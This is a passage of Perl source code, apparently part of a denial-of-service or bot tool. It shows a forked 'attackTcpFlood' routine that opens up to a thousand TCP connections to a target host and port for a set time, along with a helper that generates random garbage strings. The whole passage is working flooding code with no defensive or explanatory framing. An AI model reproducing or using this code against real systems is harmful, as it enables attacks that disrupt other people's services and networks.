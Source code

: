 		print "attackTcpFlood started!\n";		

		alarm (0);
		tcpflooder("$host","$port","$duration");
		exit;
	}
	else {
		return $child;
	}
}

sub genGarbage {
	my $len = $_[0];
	my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";
	my $garbage = '';

	for my $i (0..$len){
		my $symbol = substr $chars, int rand length($chars), 1;
		$garbage .= $symbol;
	}
	return $garbage;
}

sub tcpflooder {
   my $itime = time;
   my ($cur_time);
   my ($ia,$pa,$proto,$j,$l,$t);

   $ia=inet_aton($_[0]);
   $pa=sockaddr_in($_[1],$ia);
   $ftime=$_[2];
   $proto=getprotobyname('tcp');
   $j=0;$l=0;
   $cur_time = time - $itime;
   while ($l<1000){
	  $cur_time = time - $itime;
	  last if $cur_time >= $ftime;
	  $t="SOCK$l";
	  socket($t,PF_INET,SOCK_STREAM,$proto);
	  connect($t,$pa)||$j--;
	  $j++;
	  $l++;
   }
   $l=0;
   while ($l<1000){
	  $cur_time = time - $itime;
	  last if $cur_time >= $ftime;
	  $t="SOCK$l";
	  shutdown($t,2);
	  $l++;
   }
}
